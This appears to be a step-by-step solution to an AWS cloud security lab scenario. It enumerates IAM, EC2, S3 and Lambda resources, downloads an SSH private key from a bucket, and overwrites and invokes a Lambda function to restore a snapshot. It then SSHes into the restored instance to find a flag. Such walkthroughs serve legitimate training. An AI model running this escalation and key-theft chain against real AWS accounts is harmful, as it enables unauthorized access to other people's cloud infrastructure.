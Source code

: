 
## Reconnaissance

1. Assume the "ls-user" role
   ```
   aws configure --profile ls-user
   ```

2. List policies attached to the "ls-user":
   ```
   aws iam list-attached-user-policies --user-name ls-user
   ```

3. List available EC2 snapshots:
   ```
   aws --profile ls-user --region us-east-1 ec2 describe-snapshots --owner-ids self
   ```

   Optional: Attempt to restore the snapshot as the ls-user directly (Will not work)
   ```
   aws ec2 create-volume --snapshot-id <snapshot-id> --availability-zone us-east-1a
   ```
   
5. List available Lambda functions:
   ```
   aws --profile ls-user --region us-east-1 lambda list-functions
   ```

6. List S3 buckets and their contents:
   ```
   aws --profile ls-user --region us-east-1 s3 ls
   ```

   ```
   aws --profile ls-user --region us-east-1 s3 ls s3://<bucket-name>
   ```

7. Download the SSH key from the S3 bucket:
   ```
   aws --profile ls-user --region us-east-1 s3 cp s3://<bucket-name>/ssh_key ./ssh_key.pem
   ```

   *Dont forget to change the permissions of the ssh key*
      ```
      chmod 400 ssh_key.pem
      ```
8. List AMIs:
   ```
   aws --profile ls-user --region us-east-1 ec2 describe-images --owners self
   ```

8. List subnets:
   ```
   aws --profile ls-user --region us-east-1 ec2 describe-subnets
   ```

9. List security groups:
   ```
   aws --profile ls-user --region us-east-1 ec2 describe-security-groups
   ```


## Lambda Function Invocation

1. Download the Lambda function code:
   ```
   aws --profile ls-user --region us-east-1 lambda get-function --function-name RestoreSnapshot --query 'Code.Location' --output text | xargs curl -o lambda_function.zip
   ```

2. Update the Lambda function code with the necessary resources discovered during reconnaissance (snapshot ID, AMI ID, subnet ID, security group ID).

3. Zip the updated Lambda function code:
   ```
   zip lambda_function.zip lambda_function.py
   ```

4. Update the Lambda function code:
   ```
   aws --profile ls-user --region us-east-1 lambda update-function-code --function-name RestoreSnapshot --zip-file fileb://lambda_function.zip
   ```

5. Invoke the Lambda function:
   ```
   aws --profile ls-user --region us-east-1 lambda invoke --function-name RestoreSnapshot output.txt
   ```


## Accessing the Restored EC2 Instance

1. List running EC2 instances:
   ```
   aws --profile ls-user --region us-east-1 ec2 describe-instances --filters "Name=instance-state-name,Values=running"
   ```

2. SSH into the restored EC2 instance:
   ```
   ssh -i ssh_key.pem ec2-user@<public-ip>
   ```

3. Find the flag inside the EC2 instance to complete the scenario.

4. Terminate the EC2 instance once you are done (The "destroy" command will not remove the instance)
   ```
   aws ec2 terminate-instances --instance-ids YOUR_INSTANCE_ID
   ```





